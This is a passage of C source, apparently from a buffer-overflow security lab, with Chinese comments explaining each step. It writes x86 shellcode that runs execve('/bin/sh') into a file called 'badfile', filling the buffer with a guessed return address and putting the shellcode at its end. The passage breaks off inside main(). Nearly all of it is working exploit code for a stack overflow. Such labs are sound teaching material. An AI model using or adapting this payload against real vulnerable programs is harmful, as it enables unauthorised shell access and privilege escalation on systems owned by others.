 其余代码分析，分析见注释：

```c
/* 利用漏洞.c */
/* 一个程序，它创建一个文件“badfile”，其中包含用于启动 shell 的代码 */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define BUFFER_SIZE 517 // 表示缓冲区的大小 
#define OFFSET 400 // 表示缓冲区的偏移量 

char shellcode[] =
  "\x31\xc0"    // xorl    %eax,%eax
  "\x50"        // pushl   %eax
  "\x68""//sh"  // pushl   $0x68732f2f
  "\x68""/bin"  // pushl   $0x6e69622f
  "\x89\xe3"    // movl    %esp,%ebx
  "\x50"        // push   %eax
  "\x53"        // push   %ebx
  "\x89\xe1"    // mov    %esp,%ecx   #
  "\x99"        // cdq                # set %eax to 0
  "\xb0\x0b"    // movb   $0x0b,%al   # set %al to 11
  "\xcd\x80"    // int    $0x80       # execve("/bin/sh",0,0)
;

void fillBuffer(char buffer[BUFFER_SIZE]) {
  // 获取 shellcode 的大小
  int shellcodeSize = sizeof(shellcode);

  //表示最终允许执行 shellcode 的估计返回地址
  //通过使用缓冲区的地址和偏移值（在本例中为缓冲区后 400 字节）
  long *returnAddress = (long *) (buffer+OFFSET);

  //获取缓冲区的长整数指针，以引用堆栈内存地址中的每个 4 字节十六进制数
  long *bufferPtr = (long *) buffer;

  int i;
  int shellcodeCounter = 0;

  //获取缓冲区中以空值终止的 shell 代码的起始索引
  //（即在缓冲区的末尾插入空终止的外壳代码）
  int shellcodeStartIndex = (BUFFER_SIZE-(shellcodeSize+1));


  // 循环 25 次 (每次修改 4-bytes hexadecimal 从缓冲区开始的栈内存地址)
  for (i = 0; i < 25; i++) {
    *bufferPtr = (long) returnAddress; // 将估计返回地址分配给堆栈内存地址中的 4 字节十六进制
    bufferPtr++; // 转到堆栈内存地址中下一个 4 字节十六进制（因为长整数是 4 字节部分）
  }

  // 在缓冲区末尾插入外壳代码，没有终止符
  for (i = shellcodeStartIndex; i < (BUFFER_SIZE-1); i++) {
    buffer[i] = shellcode[shellcodeCounter];
    shellcodeCounter++;
  }

  // shellcode 的 终止符
  buffer[BUFFER_SIZE-1] = '\0';
}

void main(int argc, char **argv) {
  char buffer[BUFFER_SIZE];
```